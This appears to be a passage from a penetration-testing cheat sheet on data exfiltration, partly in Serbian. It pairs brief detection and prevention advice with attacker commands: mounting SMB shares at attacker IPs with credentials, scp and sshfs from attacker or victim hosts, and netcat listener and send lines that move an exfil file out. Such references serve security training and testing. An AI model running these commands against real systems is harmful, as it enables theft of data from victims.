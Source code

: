 #### Exfiltration Over Unencrypted Protocols

1.  **Description**

    Attackers can exfiltrate data over unencrypted protocols like FTP, Telnet, or SNMP.
2. **Detection**
   * Monitor network traffic for FTP, Telnet, or SNMP connections.
   * Look for large amounts of data being transferred over these protocols.
   * Implement deep packet inspection to analyze payload contents.
3. **Prevention**
   * Use secure protocols like SFTP, SSH, or SNMPv3.
   * Implement strong authentication mechanisms.
   * Encrypt data at rest and in transit.
4. **Tools**
   * **Wireshark**: A network protocol analyzer for monitoring and analyzing network traffic.
   * **Snort**: An open-source network intrusion detection and prevention system.

```bash
CMD-Wind> \\10.10.14.14\path\to\exe
CMD-Wind> net use z: \\10.10.14.14\test /user:test test #For SMB using credentials

WindPS-1> New-PSDrive -Name "new_disk" -PSProvider "FileSystem" -Root "\\10.10.14.9\kali"
WindPS-2> cd new_disk:
```

## SCP

Napadač mora imati pokrenut SSHd.

```bash
scp <username>@<Attacker_IP>:<directory>/<filename>
```

## SSHFS

Ako žrtva ima SSH, napadač može montirati direktorijum sa žrtve na napadača.

```bash
sudo apt-get install sshfs
sudo mkdir /mnt/sshfs
sudo sshfs -o allow_other,default_permissions <Target username>@<Target IP address>:<Full path to folder>/ /mnt/sshfs/
```

## NC

NC (Netcat) je moćan alat za mrežno programiranje koji se često koristi za prenos podataka između sistema putem mreže. Može se koristiti za izvršavanje različitih zadataka, uključujući i eksfiltraciju podataka.

```bash
nc -lvnp 4444 > new_file
nc -vn <IP> 4444 < exfil_file
```
